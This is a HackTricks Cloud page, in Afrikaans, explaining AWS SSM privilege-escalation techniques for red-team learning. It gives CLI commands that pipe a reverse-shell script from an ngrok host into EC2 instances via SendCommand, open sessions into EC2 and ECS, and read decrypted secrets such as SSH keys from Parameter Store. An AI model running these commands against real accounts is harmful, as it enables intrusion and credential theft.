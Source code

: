 # AWS - SSM Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Vir meer inligting oor SSM kyk:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

'n Aanvaller met die toestemming **`ssm:SendCommand`** kan **opdragte uitvoer in instansies** wat die Amazon SSM Agent draai en **die IAM Rol** wat binne dit loop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
In die geval dat jy hierdie tegniek gebruik om voorregte te verhoog binne 'n reeds gecompromitteerde EC2-instantie, kan jy net die rev shell plaaslik vang met:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents gekoppel is.

### `ssm:StartSession`

'n Aanvaller met die toestemming **`ssm:StartSession`** kan **'n SSH-agtige sessie in instansies** wat die Amazon SSM Agent draai, **begin en die IAM Rol** wat binne dit loop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Om 'n sessie te begin, moet jy die **SessionManagerPlugin** geïnstalleer hê: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents gekoppel is.

#### Privesc na ECS

Wanneer **ECS take** met **`ExecuteCommand` geaktiveer** loop, kan gebruikers met genoeg regte `ecs execute-command` gebruik om **'n opdrag** binne die houer uit te voer.\
Volgens [**die dokumentasie**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) word dit gedoen deur 'n veilige kanaal te skep tussen die toestel wat jy gebruik om die “_exec_“ opdrag te begin en die teikenhouer met SSM Session Manager. (SSM Session Manager Plugin is nodig vir dit om te werk)\
Daarom sal gebruikers met `ssm:StartSession` in staat wees om **'n shell binne ECS take** te verkry met daardie opsie geaktiveer deur net te loop:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potensiële Impak:** Direkte privesc na die `ECS`IAM rolle wat aan lopende take met `ExecuteCommand` geaktiveer is, geheg is.

### `ssm:ResumeSession`

'n Aanvaller met die toestemming **`ssm:ResumeSession`** kan 'n **SSH-agtige sessie in instansies** wat die Amazon SSM Agent draai met 'n **afgekoppelde** SSM sessietoestand her-**begin** en die **IAM Rol** wat binne dit loop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents wat loop en ontkoppelde sessies geheg is.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

'n Aanvaller met die genoemde toestemmings gaan in staat wees om die **SSM parameters** te lys en **dit in duidelike teks te lees**. In hierdie parameters kan jy dikwels **sensitiewe inligting** soos SSH sleutels of API sleutels vind.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potensiële Impak:** Vind sensitiewe inligting binne die parameters.

### `ssm:ListCommands`

'n Aanvaller met hierdie toestemming kan al die **opdragte** lys wat gestuur is en hoopvol **sensitiewe inligting** daarop vind.
```
aws ssm list-commands
```
**Potensiële Impak:** Vind sensitiewe inligting binne die opdraglyne.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

'n Aanvaller met hierdie toestemmings kan al die **opdragte** lys wat gestuur is en **die uitvoer** lees wat gegenereer is, in die hoop om **sensitiewe inligting** daarop te vind.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die uitvoer van die opdraglyne.

### Codebuild

Jy kan ook SSM gebruik om binne 'n codebuild projek wat gebou word, te kom:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
